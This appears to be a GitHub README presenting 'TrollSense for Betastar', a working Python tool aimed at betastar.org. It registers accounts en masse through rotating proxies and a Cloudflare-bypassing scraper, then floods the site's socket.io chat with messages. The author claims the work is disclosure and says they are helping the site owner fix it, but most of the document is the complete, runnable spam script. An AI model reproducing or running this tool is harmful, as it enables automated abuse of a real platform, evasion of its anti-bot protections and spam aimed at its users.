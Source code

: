 ## I (l2vy7) discovered a HUGE spam exploit on Betastar.
All Betastar/Blacket API endpoints are insecure, and everyone knows that.  
But now, since Betastar has a chat function, insecurity makes exploits very awful.  

### How it's made: TrollSense for Betastar
Basically, I made a separate (private) proxy generator, and copied over the proxies to proxies.txt in the folder, and set up a proxy lister.  
I also implemented a CloudFlare bypassing ```requests``` wrapper because I'm not waiting hours for Undetected ChromeDriver to work.  
Since all logins are ip-based, and each time you load a page in Betastar, it checks with the login information provider, you don't even have to work with any HTTP cookies or anything. Just direct IPs, you can even skip the login information checking process if you want.  
After that, I just loop through the proxies, make accounts with random names and the password "THEWORLDISONFIRE", check for invalid proxies, rinse and repeat.  
Then, I find existing accounts and extend the current accounts if the accounts file exists.  
Finally, I loop through the working ips with accounts linked to them, use a requests session to connect to the chat server via a socketio-python client and the current proxy, and emit "smes" with a set message attached.

## Xotic has implemented captchas for registration.
Though I'm not entirely sure if this will affect socket.io data or the registration API, I'm 99% sure he will do something to stop this from working.  

I just kept this here as a documentation on how vulnerable websites can be easily exploited.  
**I'm helping Xotic fix this. Please note that I meant no harm in making this exploit.**


```py
from requests.exceptions import *
from os.path import exists
from faker import Faker
import cloudscraper
import traceback
import requests
import socketio
import logging
import random
import string
import base64
import sys

fake = Faker()

ips = []

for x in open('proxies.txt', 'r').read().split('\n'):
    scraper = cloudscraper.create_scraper(
        browser={
            'browser': 'chrome',
            'platform': 'android',
            'desktop': False
        },
        disableCloudflareV1=True
    )

    try:
        resp = scraper.post("http://betastar.org/api/register/", headers = {"User-Agent" : fake.chrome()}, data=("username=" + ''.join(random.choices(string.ascii_uppercase + string.digits, k = 7)) + "&password=" + base64.b64encode("THEWORLDISONFIRE".encode("utf-8")).decode("utf-8") ), proxies={"http" : 'http://'+x})
        print('Account created.')
        ips.append(x)
    except ProxyError as e:
        pass
    except HTTPError as e:
        pass
    except TooManyRedirects as e:
        pass
    except Exception as e:
        pass

if exists('accounts.txt'):
    ips.extend(open('accounts.txt', 'r').read().split('\n'))

for x in ips:
    with open('accounts.txt', 'w') as x1:
        x1.write(x + '\n')
    session = requests.session()
    session.proxies = {"http" : "http://"+x}
    sio = socketio.Client(http_session=session)
    sio.connect(
        'http://betastar.org/chat/',
        transports='websocket'
    )
    sio.emit('smes', 'Insecure API endpoint test worked.')
    sio.disconnect()
```
